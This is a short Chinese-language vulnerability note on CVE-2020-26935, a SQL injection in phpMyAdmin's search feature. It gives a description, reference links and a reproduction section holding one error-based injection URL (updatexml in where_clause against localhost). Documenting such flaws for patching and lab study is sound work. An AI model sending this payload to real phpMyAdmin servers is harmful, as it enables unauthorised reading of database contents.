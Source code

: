 # 

# phpMyAdmin后台SQL注入 CVE-2020-26935

## 漏洞描述

在4.9.6之前的phpMyAdmin和5.0.3之前的5.x的SearchController中发现一个问题。在phpMyAdmin如何处理搜索功能中的SQL语句中发现了一个SQL注入漏洞。攻击者可以利用此漏洞将恶意SQL注入查询。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26935
- https://xz.aliyun.com/t/8524

## 漏洞复现

payload：

```
http://127.0.0.1/tbl_zoom_select.php?db=pentest&table=a&get_data_row=1&where_clause=updatexml(1,concat(0x7e,user()),1)
```


